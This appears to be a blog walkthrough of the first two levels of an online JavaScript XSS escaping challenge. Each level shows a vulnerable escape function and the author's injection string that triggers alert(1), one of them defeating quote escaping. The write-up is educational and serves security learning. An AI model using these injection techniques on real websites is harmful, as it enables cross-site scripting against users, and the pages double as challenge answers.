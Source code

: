 JavaScript has earned reputation of tricky and well, the most [popular language](http://techcrunch.com/2012/09/12/javascript-tops-latest-programming-language-popularity-ranking-from-redmonk/) nowadays. But in day-to-day programming life software engineers try to avoid any hacks, shortcuts and tricks. This make code simple, easy to maintain and even more reliable.
Although there is a flip side of the coin - [security](http://html5sec.org/), which requires more deep understanding of how the language and the browser works. The world have seen a lot of examples of XSS and other JavaScript-based attacks even on such reliable websites as [Facebook](http://paul-axe.blogspot.com/2013/10/a-story-about-xss-on-facebook.html?spref=tw), [Facebook](http://blog.yujikosuga.com/2012/10/stored-xss-on-facebook-developers.html), [Google](http://miki.it/blog/2013/7/30/xss-in-google-finance/), [Google](https://www.youtube.com/watch?v=SmgnMVZ4gsM) - just to list few recent attacks. Therefore when I came by this nifty [JavaScript escaping challenge](http://escape.alf.nu/) I immediately decided to test my skills.

**Spoiler Alert**: I’m going to walk through each challenge and explain my solution for it. So if you want to test your knowledge of JavaScript first - stop reading and come back only if you desparate.

If you reading this line, means that you either stuck somewhere in the middle of the quiz or just want to learn something new about JavaScript. Welcome.

Each challenge consists in a given JavaScript function which accepts single parameter - string. Your job is to write such a string, that will force the function to execute `alert(1)`.

Challenge 0
-----------
```
function escape(s) {
  // Warmup.
  return '<script>console.log("'+s+'");</script>';
}
```
Solution
-----------
```
");alert(1)//
```
This is pretty straight-forward XSS injection. The resulting html will be
```
<script>console.log("");alert(1)//");</script>
```
which is completely different from what an author intended to do there.

Challenge 1
-----------
```
function escape(s) {
  // Escaping scheme courtesy of Adobe Systems, Inc.
  s = s.replace(/"/g, '\\"');
  return '<script>console.log("' + s + '");</script>';
}
```
Solution
-----------
```
\");alert(1)//
```
By passing solution from the previous challenge we will end up with
```
<script>console.log("\");alert(1)//");</script>
```
Where part `\");alert(1)//` considered as a string, but if we escape the escape symbol `\` then our double quote became unescaped again.
